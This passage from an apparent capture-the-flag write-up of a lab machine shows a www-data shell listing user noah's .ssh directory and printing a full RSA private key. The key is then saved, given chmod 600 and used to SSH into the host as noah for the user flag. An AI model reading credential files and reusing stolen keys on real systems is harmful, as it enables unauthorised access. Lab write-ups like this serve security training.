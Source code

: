 ```
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
www-data@thenotebook:/tmp$ cat home/noah/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
HVo4kvIHT0IXveAivxez3UpiulFkaQ4zk37rfHO3wuTWsyZ0vmL7gr3fQRBndrUD
v4k2zwetxYNt0hjdLDyA+KGWFFeW7ey9ynrMKW2ic2vBucEAUUe+mb0EazO2inhX
rTAQEgTrbO7jNoZEpf4MDRt7DTQ7dRz+k8HG4wIDAQABAoIBAQDIa0b51Ht84DbH
+UQY5+bRB8MHifGWr+4B6m1A7FcHViUwISPCODg6Gp5o3v55LuKxzPYPa/M0BBaf
Q9y29Nx7ce/JPGzAiKDGvH2JvaoF22qz9yQ5uOEzMMdpigS81snsV10gse1bQd4h
CA4ehjzUultDO7RPlDtbZCNxrhwpmBMjCjQna0R2TqPjEs4b7DT1Grs9O7d7pyNM
Um/rxjBx7AcbP+P7LBqLrnk7kCXeZXbi15Lc9uDUS2c3INeRPmbFl5d7OdlTbXce
YwHVJckFXyeVP6Qziu3yA3p6d+fhFCzWU3uzUKBL0GeJSARxISsvVRzXlHRBGU9V
AuyJ2O4JAoGBAO67RmkGsIAIww/DJ7fFRRK91dvQdeaFSmA7Xf5rhWFymZ/spj2/
rWuuxIS2AXp6pmk36GEpUN1Ea+jvkw/NaMPfGpIl50dO60I0B4FtJbood2gApfG9
0uPb7a+Yzbj10D3U6AnDi0tRtFwnnyfRevS+KEFVXHTLPTPGjRRQ41OdAoGBANlU
kn7eFJ04BYmzcWbupXaped7QEfshGMu34/HWl0/ejKXgVkLsGgSB5v3aOlP6KqEE
vk4wAFKj1i40pEAp0ZNawD5TsDSHoAsIxRnjRM+pZ2bjku0GNzCAU82/rJSnRA+X
i7zrFYhfaKldu4fNYgHKgDBx8X/DeD0vLellpLx/AoGBANoh0CIi9J7oYqNCZEYs
QALx5jilbzUk0WLAnA/eWs9BkVFpQDTnsSPVWscQLqWk7+zwIqq0v6iN3jPGxA8K
VxGyB2tGqt6jI58oPztpabGBTCmBfh82nT2KNNHfwwmfwZjdsu9I9zvo+e3CXlBZ
vglmvw2DW6l0EwX+A+ZuSmiZAoGAb2mgtDMrRDHc/Oul3gvHfV6CYIwwO5qK+Jyr
2WWWKla/qaWo8yPQbrEddtOyBS0BP4yL9s86yyK8gPFxpocJrk3esdT7RuKkVCPJ
z2yn8QE6Rg+yWZpPHqkazSZO1eItzQR2mYG2hzPKFtE7evH6JUrnjm5LTKEreco+
8iCuZAcCgYEA1fhcJzNwEUb2EOV/AI23rYpViF6SiDTfJrtV6ZCLTuKKhdvuqkKr
JjwmBxv0VN6MDmJ4OhYo1ZR6WiTMYq6kFGCmSCATPl4wbGmwb0ZHb0WBSbj5ErQ+
Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
-----END RSA PRIVATE KEY-----
```

Copying the key to a file and setting the right permission on it we can now ssh into the target as noah and grab the user flag.

```
$ vi noah
$ chmod 600 noah
$ ssh -i noah noah@10.129.170.242
The authenticity of host '10.129.170.242 (10.129.170.242)' can't be established.
ECDSA key fingerprint is SHA256:GHcgekaLnxmzAeBtBN8jWgd3DME3eniUb0l+PDmejDQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.170.242' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 31 09:35:53 UTC 2021

  System load:  0.0               Processes:              182
  Usage of /:   45.9% of 7.81GB   Users logged in:        0
  Memory usage: 12%               IP address for ens160:  10.129.170.242
  Swap usage:   0%                IP address for docker0: 172.17.0.1


137 packages can be updated.
75 updates are security updates.


Last login: Wed Feb 24 09:09:34 2021 from 10.10.14.5
```